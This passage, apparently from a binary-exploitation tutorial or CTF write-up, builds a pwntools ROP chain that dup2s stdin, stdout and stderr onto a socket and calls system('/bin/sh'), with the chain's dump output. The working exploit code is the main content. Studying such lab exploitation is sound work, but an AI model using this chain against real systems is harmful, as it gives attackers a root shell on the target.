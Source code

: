 #### Rop to shell
With the libc base address known, we simply have to redirect stdin, stdout and stderr to the socket and run execve with /bin/sh.
```python
def genRopChain():
    rop = ROP([binary, libc])

    # Duplicate fd to redirect stdin, stdout and stderr to the socket
    # dup2(4, 0)
    rop.raw(rop.find_gadget(['pop rdi', 'ret']))
    rop.raw(0x4)
    rop.raw(rop.find_gadget(['pop rsi', 'ret']))
    rop.raw(0x0)
    rop.raw(libc.symbols['dup2'])

    # dup2(4, 1)
    # Don't pop rdi again, because it's already 4
    rop.raw(rop.find_gadget(['pop rsi', 'ret']))
    rop.raw(0x1)
    rop.raw(libc.symbols['dup2'])

    # dup2(4, 2)
    # Don't pop rdi again, because it's already 4
    rop.raw(rop.find_gadget(['pop rsi', 'ret']))
    rop.raw(0x2)
    rop.raw(libc.symbols['dup2'])

    # system('/bin/sh')
    binsh = next(libc.search(b'/bin/sh'))
    rop.system(binsh)  # execve('/bin/sh', 0, 0);
    return bytes(rop)
```
Luckily pwntools does all the heavy lifting, like finding the gadgets for us.

```bash
>>> print(rop.dump())
0x0000:           0x164b pop rdi; ret
0x0004:              0x4
0x0008:          0x23e6a pop rsi; ret
0x000c:              0x0
0x0010:         0x1109a0 __dup2
0x0014:          0x23e6a pop rsi; ret
0x0018:              0x1
0x001c:         0x1109a0 __dup2
0x0020:          0x23e6a pop rsi; ret
0x0024:              0x2
0x0028:         0x1109a0 __dup2
0x002c:          0x4f440 system(0x1b3e9a)
0x0030:          b'maaa' <return address>
0x0034:         0x1b3e9a arg0
```
We can check out the rop chain that pwntools generated for us using rop.dump(). Now we have all the ingredients to get a shell as root on the system.


[image]: https://made0x78.com/assets/images/bseries_ch6_stack.gif